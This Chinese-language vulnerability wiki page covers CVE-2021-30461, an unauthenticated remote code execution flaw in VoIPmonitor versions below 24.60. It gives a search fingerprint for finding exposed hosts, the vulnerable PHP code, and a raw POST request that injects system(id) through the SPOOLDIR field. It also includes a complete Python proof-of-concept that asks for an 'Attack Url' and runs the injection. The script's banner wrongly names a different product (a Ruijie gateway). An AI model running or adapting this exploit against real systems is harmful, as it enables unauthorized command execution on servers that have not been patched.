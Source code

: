 # VoIPmonitor 远程命令执行漏洞 CVE-2021-30461

# VoIPmonitor 远程命令执行漏洞 CVE-2021-30461

## 漏洞描述

VoIPmonitor是“具有在Linux上运行的SIP RTP和RTCP VoIP协议的具有商业前端的开源网络数据包嗅探器”。

使用通过Web界面到达的用户提供的数据，允许未经身份验证的远程用户触发VoIPmonitor中的远程PHP代码执行漏洞。

## 漏洞影响

```
VoIPmonitor < 24.60
```

## 网络测绘

```
"VoIPmonitor"
```

## 漏洞复现

登录页面如下

![image-20220209130009649](/images/202202091300913.png)

index.php文件中的关键代码

```php
$setConfigurationTypeValue_rslt = array();
if(file_exists('config/configuration.php')) {
	$existsConfiguration = true;
	if(isset($_POST['recheck'])) {
		if(!empty($_POST['SPOOLDIR'])) {
			setConfigurationTypeValue__index('SPOOLDIR', $_POST['SPOOLDIR']);
		}
	}
```

传入参数 recheck 和 SPOOLDIR， 并将**SPOOLDIR** 写入 **config/configuration.php** 中

![image-20220209130028591](/images/202202091300813.png)

发送如下请求包

```plain
POST /index.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:86.0) Gecko/20100101 Firefox/86.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Accept-Language: en-US,en;q=0.5
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 49

SPOOLDIR=test%22.system%28id%29.%22&recheck=annen
```

![image-20220209130049113](/images/202202091300382.png)



成功执行命令

## 漏洞POC

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import base64
import requests
import random
import re
import json
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 锐捷EG网关 cli.php RCE                                      \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/index.php"
    data = {"SPOOLDIR": "/tmp", "recheck": "annen"}
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded"
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False)
    except Exception as e:
        print("\033[31m[x] 请求失败:{} \033[0m".format(e))
        sys.exit(0)

    POC_2(target_url)

def POC_2(target_url):
    vuln_url = target_url + "/index.php"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded"
    }
    data = {"SPOOLDIR": "test\".system(id).\"", "recheck": "annen"}
    print("\033[36m[o] 正在执行命令 id .....\033[0m")
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False)
        if "uid=" in response.text:
            print("\033[36m[o] 成功执行 id, 目标存在漏洞.....\033[0m")
        else:
            print("\033[31m[x] 请求失败 \033[0m")
            exit()
    except Exception as e:
        print("\033[31m[x] 请求失败:{} \033[0m".format(e))
        sys.exit(0)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl   >>> \033[0m"))
    POC_1(target_url)
```

![image-20220209130112258](/images/202202091301601.png)

